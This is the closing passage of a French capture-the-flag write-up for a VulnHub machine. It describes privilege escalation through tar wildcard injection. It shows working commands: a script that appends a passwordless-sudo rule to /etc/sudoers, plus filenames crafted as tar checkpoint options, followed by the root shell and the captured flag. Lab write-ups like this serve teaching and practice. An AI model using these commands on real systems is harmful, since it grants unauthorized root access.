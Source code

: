 ```bash

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

## Shine like a star

On est dans un cas d'exploitation similaire au CTF [Pipe](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20devrandom%3A%20Pipe%20de%20VulnHub.md) où l'on va pouvoir exploiter utilisation du wildcard dans la commande `tar`. Je recommande la lecture de l'article  [Dangers of wildcards in bash](https://www.soliantconsulting.com/blog/dangers-wildcards-bash/) pour plus de détails.

Pour cela je créé un script bash qui va rajouter une ligne au `/etc/sudoers` puis des fichiers vides nommés après des options de `tar` qui seront pris comme tels à cause du wildcard :

```shellsession
$ echo '#!/bin/bash\necho "server-management ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers' > evil.sh
$ touch -- "--checkpoint=1"
$ touch -- "--checkpoint-action=exec=sh evil.sh" 
$ chmod 755 evil.sh
$ touch a
--- snip sleep 2 minutes here snip ---
$ sudo su
root@shuriken:/home/server-management/Documents# id
uid=0(root) gid=0(root) groups=0(root)
root@shuriken:/home/server-management/Documents# cd /root
root@shuriken:~# cat root.txt

d0f9655a4454ac54e3002265d40b2edd
                                          __                   
  ____  ____   ____    ________________ _/  |_  ______         
_/ ___\/  _ \ /    \  / ___\_  __ \__  \\   __\/  ___/         
\  \__(  <_> )   |  \/ /_/  >  | \// __ \|  |  \___ \          
 \___  >____/|___|  /\___  /|__|  (____  /__| /____  >         
     \/           \//_____/            \/          \/          
                                            __             .___
 ___.__. ____  __ __  _______  ____   _____/  |_  ____   __| _/
<   |  |/  _ \|  |  \ \_  __ \/  _ \ /  _ \   __\/ __ \ / __ | 
 \___  (  <_> )  |  /  |  | \(  <_> |  <_> )  | \  ___// /_/ | 
 / ____|\____/|____/   |__|   \____/ \____/|__|  \___  >____ | 
 \/                                                  \/     \/ 
  _________.__                 .__ __                          
 /   _____/|  |__  __ _________|__|  | __ ____   ____          
 \_____  \ |  |  \|  |  \_  __ \  |  |/ // __ \ /    \         
 /        \|   Y  \  |  /|  | \/  |    <\  ___/|   |  \        
/_______  /|___|  /____/ |__|  |__|__|_ \\___  >___|  /        
        \/      \/                     \/    \/     \/
```

Un CTF bien conçu, merci à son auteur :)

*Publié le 15 novembre 2022*
